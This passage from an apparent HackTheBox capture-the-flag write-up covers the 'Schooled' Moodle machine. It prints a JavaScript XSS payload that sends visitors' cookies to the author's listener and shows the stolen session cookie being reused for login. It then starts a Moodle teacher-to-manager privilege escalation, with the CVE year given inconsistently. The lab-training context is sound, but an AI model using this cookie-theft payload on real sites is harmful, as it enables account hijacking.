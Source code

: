 
#### Steal Cookie

I’ll write a quick JavaScript payload that will generate a GET request back to
me that includes the visiting user’s cookie:

    
    
    var fetch_req = new XMLHttpRequest();
    fetch_req.open("GET", "http://10.10.14.7/?cookie=" + document.cookie, false);           
    fetch_req.send();
    

The next time Schooled requests the script, it immediately makes another
request with the cookie:

    
    
    10.10.10.234 - - [05/Apr/2021 14:52:09] "GET /pwn.js HTTP/1.1" 200 -
    10.10.10.234 - - [05/Apr/2021 14:52:09] "GET /?cookie=MoodleSession=1d5priq1upigf4u74ej6c9nfvn HTTP/1.1" 200 -
    

In the firefox dev tools, in the Storage section, I’ll replace my
`MoodleSession` cookie with the one I just got:

![image-20210401145439543](https://0xdfimages.gitlab.io/img/image-20210401145439543.png)

Now on visiting `http://moodle.schooled.htb/moodle`, I’m logged in as Manuel
Phillips:

![image-20210401145519020](https://0xdfimages.gitlab.io/img/image-20210401145519020.png)

### Moodle Access as Lianne

#### Add Manual as Manager

From the initial page, Manuel is a Mathematics Lecturer. There’s not too much
to find. There are no messages with information. No obvious places to get RCE
or upload anything that could execute.

I turned back to the Moodle Security page, and two issues before the stored
XSS, there’s another one that’s interesting, [Course enrolments allowed
privilege escalation from teacher role into manager
role](https://moodle.org/mod/forum/discuss.php?d=407393#p1644268)
(MSA-20-0009, CVE-2021-14321).

[This GitHub page](https://github.com/HoangKien1020/CVE-2020-14321) has some
sparse details on the exploit, including a link to a blog that is no longer
up, and [this video on Vimeo](https://vimeo.com/441698193) showed the details
of how to exploit it. I need to know someone who has the manager role. Back on
the teachers page, Lianne Carter was listed as “Manager & English Lecturer”,
so I can try her.

I’ll start by going to the Math class, and selecting Participants from the
menu on the left. On that page, I’ll click the “Enrol users” button to get a
form:

